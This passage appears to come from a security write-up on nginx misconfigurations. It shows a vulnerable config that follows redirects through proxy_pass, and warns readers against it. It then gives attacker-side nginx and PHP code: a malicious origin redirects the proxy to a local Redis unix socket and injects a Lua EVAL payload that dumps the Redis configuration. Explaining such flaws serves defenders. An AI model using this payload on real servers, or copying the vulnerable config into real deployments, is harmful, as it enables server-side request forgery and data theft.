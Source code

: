 Now, we can take this a step further. If you want the proxy_pass to follow redirects instead of reflecting it, there’s no setting for that. However, a lot of examples (hello StackOverflow) show that you could do the following (hint: don’t):
```nginx
location ~ /images(.*) {
    proxy_intercept_errors on;
    proxy_pass   http://example.com$1;
    error_page 301 302 307 303 = @handle_redirects;
}
location @handle_redirects {
    set $original_uri $uri;
    set $orig_loc $upstream_http_location;
    proxy_pass $orig_loc;
}
```

This basically says that if the origin host responds with status `301`, it will use the location-header and pass it into another proxy_pass inside the @handle_redirects. This means that if this sort of rewrite is made, and an open redirect exists at the origin, we control the full part of proxy_pass. This however requires the origin host to redirect when we are using the EVAL HTTPmethod, but as shown above, if we can make the request point to our malicious origin, we can make sure it will also redirect an EVAL request back to the unix-socket:
```nginx
error_page 404 405 =301 @405;
location @405 {
  try_files /index.php?$args /index.php?$args;
}
```

```php
<?
header('Location: http://unix:/tmp/redis.sock:\\'return (table.concat(redis.call("config","get","\*"),"\\n").." HTTP/1.1 200 OK\\r\\n\\r\\n")\\' 1 ', true, 301);
```


## References
* https://portswigger.net/daily-swig/nginx-server-misconfigurations-found-in-the-wild-that-expose-websites-to-attacks
* https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/
* https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/
* https://github.com/yandex/gixy
* https://book.hacktricks.xyz/pentesting/pentesting-web/nginx